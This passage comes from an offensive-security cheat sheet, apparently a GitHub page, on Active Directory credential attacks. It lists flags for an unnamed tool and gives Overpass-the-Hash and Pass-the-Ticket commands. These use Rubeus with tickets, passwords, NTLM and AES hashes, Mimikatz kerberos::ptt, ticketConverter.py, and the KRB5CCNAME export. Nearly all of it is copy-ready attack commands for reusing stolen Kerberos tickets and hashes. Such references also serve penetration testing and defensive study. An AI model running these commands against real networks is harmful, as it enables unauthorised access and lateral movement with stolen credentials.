 Some additional flags that could be useful.
| Flag | Description | 
| ---- | ---- |
| -S | use ssl | 
| -r | specify relm/domain |
| -n | disabled colors in the terminal |
| -l | enables logging | 
| -p | specify port |
| -U | specify url on the target machine (useful if target manually changed it, rare to happen) |

### Overpass-the-Hash

Rubeus

```powershell
Rubeus.exe ptt /ticket:<b64ticket>
Rubeus.exe ptt /user:USER /pass:PASS
Rubeus.exe ptt /user:USER /rc4:ntlmhash
Rubeus.exe ptt /user:USER /aes256:hash 
```


### Pass-the-Ticket


Tip: convert ticket to UNIX <-> Windows format
```bash

# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```

Step 1: Inject Ticket (If you already have ticket, skip to next step)

Windows

```powershell
# Rubeus 
Rubeus.exe ptt /ticket:"base64 | ticket.kirbi"

# Mimikatz
# use a .kirbi file
kerberos::ptt $ticket_kirbi_file

# use a .ccache file
kerberos::ptt $ticket_ccache_file
```

Linux
```bash
# export the ticket to the enviornment variable so that tools can utilize it.
export KRB5CCNAME=/full/path/to/ticket.ccache
```
